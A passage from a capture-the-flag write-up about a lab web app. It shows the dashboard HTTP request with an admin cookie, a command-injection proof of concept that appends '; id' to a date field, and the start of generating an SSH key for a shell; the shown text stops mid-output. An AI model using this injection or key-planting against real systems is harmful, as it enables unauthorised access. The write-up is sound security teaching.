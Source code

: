 #### Dashboard Enumeration

Clicking “Generate Report” shows a message under the form:

![image-20240711152940524](/img/image-20240711152940524.png)

The HTTP request that is sent when clicked is:

```

POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

date=2023-09-15

```

#### Command Injection POC

In the browser, I can’t change the fields to anything but a date. But in Burp, I can mess with the requests. I’ll send that request to Repeater.

If I think about what the server is doing, it is likely taking the date and looking up information about what was happening for the report on that date. If it can do that from Python, that’s good for it. But if it needs to run some system commands, it is possible that it’s taking my input and building the command from it, and then calling something like `subprocess.run` or `os.system` with that string. To check for that, I’ll try adding `; id` to the end of the date:

![image-20240711153553800](/img/image-20240711153553800.png)

It worked! The output of the `id` command is displayed in the response.

#### Shell via SSH

I can do a quick check for a private SSH key in the dvir user’s home directory, but there’s not one there:

![image-20240711153728250](/img/image-20240711153728250.png)

I can write my own. I’ll generate a key (I like ed25519 cause they are short):

```

oxdf@hacky$ ssh-keygen -t ed25519 -f key
Generating public/private ed25519 key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:PGAmS1HqWDvKz/OqV+BSn2LNxs6qlCfQRs9mXOJHVPQ oxdf@hacky
The key's randomart image is:
+--[ED25519 256]--+
|    ..ooo        |
|     +   .       |
|  . * *   E      |
| o XoX o         |
|. +o%*..S        |
| +.=+oO  .       |
|  *o.*           |
```